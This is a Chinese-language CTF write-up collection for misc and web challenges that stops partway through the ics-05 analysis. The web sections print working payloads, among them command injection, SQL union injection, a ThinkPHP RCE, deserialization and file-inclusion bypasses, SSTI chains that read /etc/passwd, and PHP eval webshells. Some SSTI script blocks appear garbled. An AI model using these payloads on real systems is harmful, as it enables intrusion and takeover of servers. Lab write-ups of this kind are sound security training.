

## Misc

### 1. this_is_flag

直接提交

### 2. pdf

打开CTRL F搜索flag即可，做了文字隐藏

### 3. 如来十三掌

与佛论禅解密 [与佛论禅密码 - Bugku CTF](https://ctf.bugku.com/tool/todousharp)；

ROT13 解密；

Base64解密；

### 4. give_you_flag

Stegsolve抽取展示二维码的那一帧，把四个角补全，用QR Research扫描即可得到flag


### 5. 坚持60s

jd-gui打开看jar包源码，搜flag后base64解密；

### 6. gif

黑色代表0，白色代表1，二进制解码即可得到flag；

### 7. stegano

将pdf中所有的内容CTRL A拷贝出来有一行BA字符串A对应. B对于-，莫斯解密

### 8. 掀桌子

一般来说，我们使用的都是7位的ascii码，即0-127，而128-255则是扩展的一些其他符号，给的加密串很明显是128-255部分的。需要对其进行128取余操作后再解密。

```python
flag = ''
s='c8e9aca0c6f2e5f3e8c4efe7a1a0d4e8e5a0e6ece1e7a0e9f3baa0e8eafae3f9e4eafae2eae4e3eaebfaebe3f5e7e9f3e4e3e8eaf9eaf3e2e4e6f2'
l = len(s)//2
for i in range(l):
    flag += chr(int(s[i*2:(i+1)*2], 16) % 128)
print(flag, end='')

```

### 9. ext3

010打开搜flag关键字，发现存在flag.txt文件，此文件可以用7z解压，直接解压，flag.txt文件中是一串base64编码的字符串，解码即可得到flag

### 10. SimpleRAR

解压发现只有一个txt文件，里面还不是flag，遂用010打开，发现藏了一个png图片：


百度了一下rar每个块的开头：


我们要的是文件块而不是子块，于是更改7A为74，成功解压，发现是一张空白的png图片，010打开，文件头却是gif：


需要用photoshop或者gifsplitter来分离图层，分离图层后拼接两张图片是个二维码，扫描即得flag

### 11. Banmabanma

条形码扫描：

[Barcode Reader. Free Online Web Application (inliteresearch.com)](https://online-barcode-reader.inliteresearch.com/)

### 12. base64stego

下载下来的压缩包有伪加密，修改加密位为偶数即可解压，解压以后得到一个base64隐写文件，跑脚本出结果：

```python
# 此方法用来将包含隐藏信息的字母转换为base64编码表对应的序列值（十进制数）并返回
def base64change(s):
    table = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/' # base64编码表，恰好索引值对应字母
    for i in range(len(table)):
        if table[i] == s:
            return i


# 此方法用来获取隐藏信息二进制字符串
def base64solve():
    f = open('.\\stego.txt','r')
    lines = f.readlines()

    flag_bin = ''
    for line in lines:
        # print(line)
        l = line.strip() # 去掉两边的空格
        if l[-1] == '=':
            if l[-2] == '=': # 含有两个=则包含4bit信息
            # 将返回的十进制转换为二进制数，由于返回的二进制数为0b开头，所以从第三位开始取，然后用0填充头部为4位，再取后四位隐藏的信息
                flag_bin += bin(base64change(l[-3]))[2:].zfill(4)[-4:]
            else:# 只含一个=则包含二bit信息
                flag_bin += bin(base64change(l[-2]))[2:].zfill(2)[-2:]
    #print(flag_bin)
    flag = ''
    for i in range(len(flag_bin)//8):
        flag += chr(int(flag_bin[i * 8:(i + 1) * 8], 2))
    print(flag)


if __name__ == '__main__':
    base64solve()


```

- base64编码规则：把3个8位字节（3x8=24）转化为4个6位的字节（4x6=24），再根据每个字节的值，用base64编码表中的值替换，不足4个字节的，补“＝”。编码得到的字符串长度必为4的倍数。
- 编码步骤：
  - 将待编码字符串各个字符换为对应ASCII码值
  - 将得到的ASCII码值转换为8位二进制
  - 将得到的8位二进制序列分割为6位一组（不足6位的末尾添0补上）
  - 将每个6位二进制数列转换为十进制数字。（6位二进制最大值为63）
  - 将转换所得的十进制值对应Base64编码表中的字符进行替换
  - 若编码所得字符串长非4倍，添一个或两个“=”补上
- 解码步骤：
  - 将待解码字符串中的字符对应查找Base64编码表中的序列值（末尾的“=”直接忽略）
  - 将所得对应序列值转换为6位二进制字串
  - 将所有6位二进制字串从左至右按8位分割（多的是补的0直接丢掉不影响数据还原结果）
  - 将每个8位二进制字串转换为十进制
  - 十进制值对应的ASCII字符串即为结果
- base64隐写原理
  - 在base64解码时的第三步，会有部分多余数据被丢弃，而且这些数据是我们进行补充的0，那要是我们不全用0进行补充，而是用1或0进行填充（二进制），然后就会起到隐藏信息的作用
  - 提取信息：将我们填充进去的数据拿出来然后组成一串二进制字符串进行转码即可，由于一串base64编码最多只有4bit的隐写空间，所以实现隐写需要大量的编码串。

### 13. 功夫再高也怕菜刀

同buu 43. 菜刀666

### 14. pure_color

StegSolve打开，即可得到flag：


### 15. base64÷4

下载文件打开666开头，一眼16进制，解码即可

### 16. Training-Stegano-1

010打开，falg在最后


## Web

### 1. view_source

需要查看网页源代码，禁用了右键，CTRL U即可

### 2. robots

首先百度查看下robots协议：

[Robots协议详解-CSDN博客](https://blog.csdn.net/wallacer/article/details/654289?ops_request_misc=%7B%22request%5Fid%22%3A%22162968119416780265444488%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=162968119416780265444488&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-654289.pc_search_similar&utm_term=robot协议&spm=1018.2226.3001.4187)

简单来说当robots访问一个网站（比如http://www.abc.com）时，首先会检查该网站中是否存在http://www.abc.com/robots.txt这个文件，如果机器人找到这个文件，它就会根据这个文件的内容，来确定它访问**权限**的范围（也就相当于一个管理权限的文件）；

url访问robots.txt：


访问f1ag_1s_h3re.php即可得到flag；

### 3. backup

访问直接提示：

```
你知道index.php的备份文件名吗？
```

凭经验是index.php.bak，直接访问即可得到源码，flag在其中（当然也可以dirsearch扫描）

### 4. cookie

burp抓包，cookie中提示要去cookie.php


访问，flag再response header中：


### 5. disabled_button

CTRL U查看源代码：

```html
<form action="" method="post" >
<input disabled class="btn btn-default" style="height:50px;width:200px;" type="submit" value="flag" name="auth" />
</form>
```


表单按钮是需要一个POST 参数auth=flag，hackbar发送即可得到flag。

### 6. get_post

没啥难度，照提示一步一步做即可，hackbar截图：


### 7. weak_auth

随便登录提示要以admin登录，burp抓包，Intruder爆破密码，爆破出来是123456，得到flag


使用的dict是：

```
D:\Global\apps\fuzzDicts\2021-12-11T08.19.00\passwordDict\top500.txt
```

### 8. simple_php

php代码审计：

```php
<?php
show_source(__FILE__);
include("config.php");
$a=@$_GET['a'];
$b=@$_GET['b'];
if($a==0 and $a){
    echo $flag1;
}
if(is_numeric($b)){
    exit();
}
if($b>1234){
    echo $flag2;
}
?>

```

运用到了php弱相等，直接发请求即可得到flag


### 9. command_execution

命令执行，没有[GXYCTF2019]Ping Ping Ping （在buu的wp中）难，payload：

```
1;cat /home/flag.txt
```

### 10. Training-WWW-Robots

同 robots，访问robots.txt后访问flag页面即可

### 11. xff_referer

burp抓包按提示重新构造http 请求头即可：

```http
X-Forwarded-For: 123.123.123.123
referer: https://www.google.com
```

- X-Forward-For（xff）是客户端连接到网页的ip
- referer是客户从哪个网页来访问的当前页面。

### 12. baby_web

访问网页显示helloworld，burp抓包，有一次转发，flag藏在header中


### 13. simple_js

CTRL U发现有段js代码，代码审计：

```javascript
    function dechiffre(pass_enc){
        var pass = "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65";
        var tab  = pass_enc.split(',');
                var tab2 = pass.split(',');var i,j,k,l=0,m,n,o,p = "";i = 0;j = tab.length;
                        k = j + (l) + (n=0);
                        n = tab2.length;
                        for(i = (o=0); i < (k = j = n); i++ ){o = tab[i-l];p += String.fromCharCode((o = tab2[i]));
                                if(i == 5)break;}
                        for(i = (o=0); i < (k = j = n); i++ ){
                        o = tab[i-l];
                                if(i > 5 && i < k-1)
                                        p += String.fromCharCode((o = tab2[i]));
                        }
        p += String.fromCharCode(tab2[17]);
        pass = p;return pass;
    }
    String["fromCharCode"](dechiffre("\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"));

    h = window.prompt('Enter password');
    alert( dechiffre(h) );
```

无论怎么输密码最终都会走到假密码，将

```
\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30
```

这段转为ASCII为flag

### 14. PHP2

百度了下要用到index.phps来查看php的源代码，增加到御剑的后台字典（增强版字典D:\Tools\ctf工具箱\网站源码泄露\yjdirscanv1.1），扫描：


php代码审计：

```php
<?php
if("admin"===$_GET[id]) {
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "admin")
{
  echo "<p>Access granted!</p>";
  echo "<p>Key: xxxxxxx </p>";
}
?>
```

`===`与`==`的区别

- `===`是比较值和数据类型；

- `==`是比较值，不比较数据类型；
- 例如：`$a='123'  $b=123`
  - `$a===$b　　　　//False`
  - `$a==$b　　　　//True`

里面有一个urldecode，意思就是用于解码已编码的 URL 字符串，其原理就是把十六进制字符串转换为中文字符；要求admin不能等于get传过来的值，又要求在get传过来的值经过urldecode后等于admin；

而且**浏览器会对非ASCII字符自动进行一次urldecode**，需要进行两次url编码

所以pyload就为：

```
index.php?id=%25%36%31dmin
```

### 15. ics-06

进入网页，只有一处可以点击：


进入选择日期间隔没有任何反应，尝试对id进行爆破：


burp抓包发送到Intruder：


爆破得到flag：


### 16. unserialize3

访问页面有段php代码，审计：

```php
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
```

序列化绕过`__wakeup`函数，同buu  [极客大挑战 2019]PHP ，**当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过__wakeup的执行**，跑脚本增加下参数个数即可绕过：

```php
<?php
class xctf{
    public $flag  = '111';

    public function __construct($flag){
        $this->flag = $flag;
    }
}
$a = new xctf('111');
var_dump(serialize($a));
?>
```

最终payload：

```
?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```


- 另：php魔术方法

 


### 17. php_rce

进入页面查看到thinkphp5，可能是某些漏洞利用，使用工具ThinkPHP.V2.3.by.jar扫描下：


结果显示：

```
[+] 目标存在tp5_invoke_func_code_exec_1漏洞
```

直接命令执行即可：


手工做的payload（利用thinkphp的漏洞）：

```
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=xxxxx（命令）
```

### 18. Web_php_include

一进去就是代码审计：

```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```

GET传参page中带有php://的都会被替换成空

- str_replace()以其他字符替换字符串中的一些字符(区分大小写)

- strstr() 查找字符串首次出现的位置。返回字符串剩余部分

**方法一：大小写绕过**

由于strstr()这个函数是区分大小写的所以可以转换成大小写用`PHP://input`

payload：


**方法二：data://伪协议执行命令利用**

php5.2.0起，数据流封装器开始有效，主要用于数据流的读取。如果传入的数据是PHP代码，就会执行代码

使用方法：`data://text/plain;base64,xxxx(base64编码后的数据)`；

首先将`<?php system("ls")?>`base64加密（即PD9waHAgc3lzdGVtKCJscyIpPz4=），构造payload：

```
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCJscyIpPz4=
```


然后加密`<?php system("cat fl4gisisish3r3.php")?>`，继续传入CTRL U查看源代码即可看到flag，最终payload：

```
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCJscyIpPz4=
```


**方法三：data://伪协议传木马**

`<?php eval($_POST[a]); ?>` base64加密后拼接`?page=data://text/plain/;base64,`作为payload，蚁剑链接即可


查看flag：


百度下还有一种方法可以通过phpMyAdmin来获取flag：

> 第四种方法(数据库写入马)
>
> 御剑扫描获得phpmyadmin root 密码空 进入
>
> 数据库执行这条命令查看secure_file_priv是否为空，为空则可以写数据 如果是null不能写
>
> SHOW VARIABLES LIKE "secure_file_priv"
>
> linux默认tmp是可写目录 试试写入一句话马 菜刀连接 
>
> SELECT "<?php eval(@$_POST['xiaohua']); ?>"
> INTO OUTFILE '/tmp/test1.php'

### 19. upload1

文件上传类型，Webshell_Generate-1.2.3.jar生成一个webshell一句话木马，修改后缀为jpg类型，上传的时候burp抓包：


注意，此处要把.jpg后缀改为.php要不然蚁剑连不上，上传完毕蚁剑连接即可。

web shell（密码1）：

```php
<?php class Gql86m44 { public function __construct($H9m9a){ @eval("/*Ztdp03a9AJ*/".$H9m9a."/*Ztdp03a9AJ*/"); }}new Gql86m44($_REQUEST['1']);

echo('123');
?>
```

### 20. warmup

访问页面查看网页源代码，提示是source.php，访问为代码审计：

```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>";
    }  
?>
```

同buu 3. [HCTF 2018]WarmUp，最终构造的payload：

```
/source.php?file=hint.php?../../../../../ffffllllaaaagggg
```


### 21. NewsCenter

有一个输入框，POST类型的union注入

爆表：

```
search=1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema='news'#
```

爆列：

```
search=1' union select 1,database(),group_concat(column_name) from information_schema.columns where table_schema='news' and table_name='secret_table'#
```

爆破数据：

```
search=1' union select 1,database(),group_concat(id,fl4g) from secret_table#
```

得到flag

### 22. Web_php_unserialize

代码审计

```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```

代码中会对传进来的var参数进行base64解密，然后再对其进行反序列化（之前会有正则过滤）；

先运行脚本序列化一个Demo对象：

```php
<?php
class Demo { 
    private $file = 'fl4g.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
}
$a = new Demo('fl4g.php');
var_dump(serialize($a));
?>
```

结果：

```
O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}
```

需要绕过`__wakeup()`方法和正则过滤；

- 绕过`__wakeup()`方法：经典魔术方法绕过，`"Demo":1:`个数比1大即可；
- 绕过正则：这个正则会去筛选`O:数字`，因此构造出来的`O:4:`会被过滤掉，改成+4可以绕过；

试着构造序列化对象再base64加密传入payload：

```
?var=TzorNDoiRGVtbyI6Mjp7czoxMDoiRGVtb2ZpbGUiO3M6ODoiZmw0Zy5waHAiO30=
```

虽然绕过了过滤，但没显示结果，显然是反序列化有问题。。。


百度下：

> 注意：base64的时候，需要在脚本中，一并base，因为如果复制，就相当于在记事本中，记事本中的格式与序列化的格式不同，自然也就base64结果不同

简而言之是需要对序列化对象进行base64加密，而不是toString的序列化对象；

- private 私有成员序列化，见buu16. [极客大挑战 2019]PHP此处手动加上`.`后再去base64解码也是可以的

更新脚本：

```php
<?php
class Demo { 
    private $file = 'fl4g.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
}
$a = new Demo('fl4g.php');
$str = serialize($a);
$str1 = str_replace('O:4', 'O:+4',$str);//绕过preg_match
$str2 = str_replace(':1:', ':2:',$str1);//绕过wakeup
var_dump($str2);
var_dump(base64_encode($str2));
?>
```

最终payload：

```
?var=TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==
```

正则：

- `/i `表示匹配的时候不区分大小写
- `\d `匹配一个数字字符。等价于` [0-9]`。
- `+` 出现至少1次
- `[ ]` 是定义匹配的字符范围
  - `[oc]`是匹配o或c任意一个
  - `[xyz] `字符集合。匹配所包含的任意一个字符。例如， ‘[abc]’ 可以匹配 “plain” 中的 ‘a’。
- `\d+`是为了匹配[0-9]的数字，多次匹配！

### 23. supersqli

见 buu 7. [强网杯 2019]随便注 总体来说是堆叠注入加上交换两个表

### 24. web2

代码审计：

```php
<?php
$miwen="a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws";

function encode($str){
    $_o=strrev($str);
    // echo $_o;
        
    for($_0=0;$_0<strlen($_o);$_0++){
       
        $_c=substr($_o,$_0,1);
        $__=ord($_c)+1;
        $_c=chr($__);
        $_=$_.$_c;   
    } 
    return str_rot13(strrev(base64_encode($_)));
}

highlight_file(__FILE__);
/*
   逆向加密算法，解密$miwen就是flag
*/
?>
```

需要逆向加密算法，从下网上看

```php
str_rot13(strrev(base64_encode($_)));
```

逆向此需要按照如下顺序：

- rot13解密；
- 反转字符串；
- base64解密；

得到中间字符串：

```
~88:36e1bg8438e41757d:29cgeb6e48c`GUDTO|;hbmg
```

在逆向那个for循环，每位ascii-1即可，最后反转下得到flag；

### 25. Web_python_template_injection

**方法1：tplmap自动实现模板注入**

```
D:\CTF\other tools\tplmap>D:\Python27\python.exe tplmap.py -u http://61.147.171.105:55538/*
```

运行结果：


可以进行注入，加上`--os-shell`参数运行shell

```
D:\Python27\python.exe tplmap.py -u http://61.147.171.105:55538/* --os-shell
```

获取flag：


**方法二：手工注入（脚本）**

首先查看是能进行ssti模板方法注入：

```
/{{1+1}}
```

有返回，证明可以注入：


payload运行脚本：

```python
/

    
           //遍历基类 找到eval函数
        //找到了
      {{ b['eval']('__import__("os").popen("ls").read()') }}  //导入cmd 执行popen里的命令 read读出数据
    
  
  


```


修改命令，查看fl4g文件即可得到flag：

```python
/

    
           //遍历基类 找到eval函数
        //找到了
      {{ b['eval']('__import__("os").popen("cat fl4g").read()') }}  //导入cmd 执行popen里的命令 read读出数据
    
  
  


```



**方法三：手工注入（纯手工）**

前置知识：

- 什么是模板注入：将模板内容传递到服务端，服务端会执行模板内容中的代码
- 模板注入的一般流程：
  - 寻找父类
  - 寻找子类
  - 寻找命令执行或者文件操作相关的模块

- 几种常用于ssti的魔术方法：

```python
__class__  返回类型所属的对象
__mro__    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
__base__   返回该对象所继承的基类
// __base__和__mro__都是用来寻找基类的
 
__subclasses__   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
__init__  类的初始化方法
__globals__  对包含函数全局变量的字典的引用
__builtins__ builtins即是引用，Python程序一旦启动，它就会在程序员所写的代码没有运行之前就已经被加载到内存中了,而对于builtins却不用导入，它在任何模块都直接可见，所以可以直接调用引用的模块
```

- 获取基类的几种方法：

```
[].__class__.__base__
''.__class__.__mro__[2]
().__class__.__base__
{}.__class__.__base__
request.__class__.__mro__[8] 　　//针对jinjia2/flask为[9]适用
或者
[].__class__.__bases__[0]       //其他的类似
```

- 获取基本类的子类：
  - **ssti的主要目的就是从这么多的子类中找出可以利用的类（一般是指读写文件的类）加以利用。**

```
[].__class__.__base__.__subclasses__()
```

- 常用方法：

```
().__class__.__base__.__subclasses__()[40]('/etc/passwd').read()//<type 'file'>，（甚至file一般是第40号）

''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()//shell

().__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].listdir('.')  //某些情况下system函数会被过滤。这时候也可以采用os模块的listdir函数来读取目录。(可以配合file来实现任意文件读取)

''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()　　　　//其他情况读写，另外把 read() 改为 write() 就是写文件

''.__class__.__mro__[2].__subclasses__().index(file) //存在的子模块可以通过 .index()方式来查询
```

所以手动注入的话直接传payload（先读当前文件夹下的文件，再读flag文件）：

```
/{{().__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].listdir('.')}}

/{{().__class__.__base__.__subclasses__()[40]('fl4g').read()}}
```

### 26. mfw

CTRL U查看源码：


结合About的git提示：


应该是git源码泄露，使用githacker扫下（D:/Global/apps/githacker/current）：

```shell
githacker --url http://61.147.171.105:55791/ --output-folder result
```

结果：


flag.php里面没有啥东西，而且git log看了下也只有1个commit，可能需要**经过浏览器进行渲染**。

继续查看index源码，代码审计：

```php+HTML
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
<!DOCTYPE html>
<html>
	<head>
		<meta charset="utf-8">
		<meta http-equiv="X-UA-Compatible" content="IE=edge">
		<meta name="viewport" content="width=device-width, initial-scale=1">
		
		<title>My PHP Website</title>
		
		<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/3.3.7/css/bootstrap.min.css" />
	</head>
	<body>
		<nav class="navbar navbar-inverse navbar-fixed-top">
			<div class="container">
		    	<div class="navbar-header">
		    		<button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
		            	<span class="sr-only">Toggle navigation</span>
		            	<span class="icon-bar"></span>
		            	<span class="icon-bar"></span>
		            	<span class="icon-bar"></span>
		          	</button>
		          	<a class="navbar-brand" href="#">Project name</a>
		        </div>
		        <div id="navbar" class="collapse navbar-collapse">
		          	<ul class="nav navbar-nav">
		            	<li <?php if ($page == "home") { ?>class="active"<?php } ?>><a href="?page=home">Home</a></li>
		            	<li <?php if ($page == "about") { ?>class="active"<?php } ?>><a href="?page=about">About</a></li>
		            	<li <?php if ($page == "contact") { ?>class="active"<?php } ?>><a href="?page=contact">Contact</a></li>
						<!--<li <?php if ($page == "flag") { ?>class="active"<?php } ?>><a href="?page=flag">My secrets</a></li> -->
		          	</ul>
		        </div>
		    </div>
		</nav>
		
		<div class="container" style="margin-top: 50px">
			<?php
				require_once $file;
			?>
			
		</div>
		
		<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/1.12.4/jquery.min.js" />
		<script src="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/3.3.7/js/bootstrap.min.js" />
	</body>
</html>
```

有段关键代码：

```php+HTML
// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");
```

发现页面可能存在page参数注入，**assert函数对传入的参数可能会当作php代码进行执行**，所以，我们可以将strpos后的参数进行闭合，然后传入可执行命令，并注释掉后续的代码，即可实现让assert函数执行我们定义的代码，payload为：

```
/?page=');//
```

可以看到assert or前面的报错，所以就去执行了or后面的：


所以为了去拿到template/flag.php，构造如下payload：

```
/?page=').system("cat ./templates/flag.php");//
```

### 27. inget

sql注入，万能密码：

```
?id=1' or 1=1 --+

/?id=1' or ''='
```

### 28. Cat

一开始以为是sql注入，尝试了下发现并不是，那么可能是命令执行；

按提示输入个loli.club试试，没有回显，输入127.0.0.1试试：


有回显，试试执行其他命令发现会显示Invalid URL，无论是`127.0.0.1;ls`还是`127.0.0.1|ls`，所以应该是有过滤，burp的Intruder fuzz爆破下，字典选用如下：

```
`
~
!
@
#
$
%
^
&
*
(
)
_
+
-
=
{
}
|
:
"
<
>
?
[
]
\
;
'
,
.
/
 

```

显示` `、`@`、`-`、`.`没有被过滤


试试是否能通过编码，然后被解码绕过；

先测试一下能否使用URL编码发现`%100`没报错但`%90`报错了，报错页面是个html代码，保存到本地看看：


百度了下是Django的报错页面，再setting选段会有数据库相关的信息：


**php中可以通过@+完整路径来读取文件**（现在CURLFile）

前提：

- PHP<=5.5
- 有个键值，然后value必须是个数组 content-type：multipart/form-data

最终构造payload：

```
?url=@/opt/api/database.sqlite3
```

在页面中查找ctf即可得到flag

### 29. fileclude

php代码审计：

```php
 <?php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET["file1"]) && isset($_GET["file2"]))
{
    $file1 = $_GET["file1"];
    $file2 = $_GET["file2"];
    if(!empty($file1) && !empty($file2))
    {
        if(file_get_contents($file2) === "hello ctf")
        {
            include($file1);
        }
    }
    else
        die("NONONO");
} 
```

文件包含漏洞位于file1与file2两个变量中。其中，file2被放入了file_get_contents函数中，并要求返回值为hello ctf，我们可以用php://input来绕过；而file1被放入include函数中，并且根据题目提示，我们应该获取当前目录下flag.php的文件内容。因此我们可以使用php://filter伪协议来读取源代码。最终可以得到flag.php经过Base64编码后的结果
最终payload：

```
?file1=php://filter/read=convert.base64-encode/resource=flag.php&file2=php://input
```

得到的返回base64解码下即可得到flag

### 30. ics-05

按题目提示进入到设备管理中心，点击头部控件发现会有输出：


page的参数联想到可能存在文件包含漏洞

> **LFI漏洞的黑盒判断方法：**
> **单纯的从URL判断的话，URL中path、dir、file、pag、page、archive、p、eng、语言文件等相关关键字眼的时候,可能存在文件包含漏洞**

用伪协议读一下：

```
index.php?page=php://filter/read=convert.base64-encode/resource=index.php
```

页面内容base64解密即可得到源码：

```php+HTML
<?php
error_reporting(0);

@session_start();
posix_setuid(1000);


?>
<!DOCTYPE HTML>
<html>

<head>
    <meta charset="utf-8">
    <meta name="renderer" content="webkit">
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
    <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
    <link rel="stylesheet" href="layui/css/layui.css" media="all">
    <title>设备维护中心</title>
    <meta charset="utf-8">
</head>

<body>
    <ul class="layui-nav">
        <li class="layui-nav-item layui-this"><a href="?page=index">云平台设备维护中心</a></li>
    </ul>
    <fieldset class="layui-elem-field layui-field-title" style="margin-top: 30px;">
        <legend>设备列表</legend>
    </fieldset>
    <table class="layui-hide" id="test"></table>
    <script type="text/html" id="switchTpl">
        <!-- 这里的 checked 的状态只是演示 -->
        <input type="checkbox" name="sex" value="{{d.id}}" lay-skin="switch" lay-text="开|关" lay-filter="checkDemo" {{ d.id==1 0003 ? 'checked' : '' }}>
    </script>
    <script src="layui/layui.js" charset="utf-8"></script>
    <script>
    layui.use('table', function() {
        var table = layui.table,
            form = layui.form;

        table.render({
            elem: '#test',
            url: '/somrthing.json',
            cellMinWidth: 80,
            cols: [
                [
                    { type: 'numbers' },
                     { type: 'checkbox' },
                     { field: 'id', title: 'ID', width: 100, unresize: true, sort: true },
                     { field: 'name', title: '设备名', templet: '#nameTpl' },
                     { field: 'area', title: '区域' },
                     { field: 'status', title: '维护状态', minWidth: 120, sort: true },
                     { field: 'check', title: '设备开关', width: 85, templet: '#switchTpl', unresize: true }
                ]
            ],
            page: true
        });
    });
    </script>
    <script>
    layui.use('element', function() {
        var element = layui.element; //导航的hover效果、二级菜单等功能，需要依赖element模块
        //监听导航点击
        element.on('nav(demo)', function(elem) {
            //console.log(elem)
            layer.msg(elem.text());
        });
    });
    </script>

<?php

$page = $_GET[page];

if (isset($page)) {


if (ctype_alnum($page)) {
?>

    <br /><br /><br /><br />
    <div style="text-align:center">
        <p class="lead"><?php echo $page; die();?></p>
    <br /><br /><br /><br />

<?php

}else{

?>
        <br /><br /><br /><br />
        <div style="text-align:center">
            <p class="lead">
                <?php

                if (strpos($page, 'input') > 0) {
                    die();
                }

                if (strpos($page, 'ta:text') > 0) {
                    die();
                }

                if (strpos($page, 'text') > 0) {
                    die();
                }

                if ($page === 'index.php') {
                    die('Ok');
                }
                    include($page);
                    die();
                ?>
        </p>
        <br /><br /><br /><br />

<?php
}}


//方便的实现输入输出的功能,正在开发中的功能，只能内部人员测试

if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}


?>

</body>

</html>


```

代码审计发现可能存在漏洞利用的点在这段：

```php
//方便的实现输入输出的功能,正在开发中的功能，只能内部人员测试

if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

